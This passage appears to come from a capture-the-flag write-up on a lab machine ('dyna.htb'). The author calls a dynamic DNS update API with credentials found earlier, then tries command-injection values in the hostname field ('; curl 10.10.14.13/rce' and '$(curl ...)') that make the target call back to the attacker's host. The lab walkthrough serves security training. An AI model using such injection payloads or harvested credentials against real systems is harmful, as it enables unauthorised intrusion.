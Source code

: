 <figure><img src="../../../.gitbook/assets/image (20) (10) (1).png" alt=""><figcaption></figcaption></figure>

Googling `/nic/update` reveals that this is actually an API that we can access:

{% embed url="https://help.dyn.com/remote-access-api/perform-update/" %}

This requires credentials, which we had found earlier, so let's try to use this API.&#x20;

```
$ curl http://dynadns:sndanyd@dyna.htb/nic/update?hostname=10.10.14.13
911 [wrngdom: 10.14.13]
```

Since this is taking our input and sending it somewhere, I tried some basic RCE injection.&#x20;

```
$ curl -G --data-urlencode 'hostname=10.10.14.13; curl 10.10.14.13/rce' http://dynadns:sndanyd@dyna.htb/nic/update
911 [wrngdom: 10.14.13; curl 10.10.14.13/rce]

$ curl -G --data-urlencode 'hostname=$(curl 10.10.14.13/rce)' http://dynadns:sndanyd@dyna.htb/nic/update 
911 [wrngdom: 10.14.13/rce)]
```
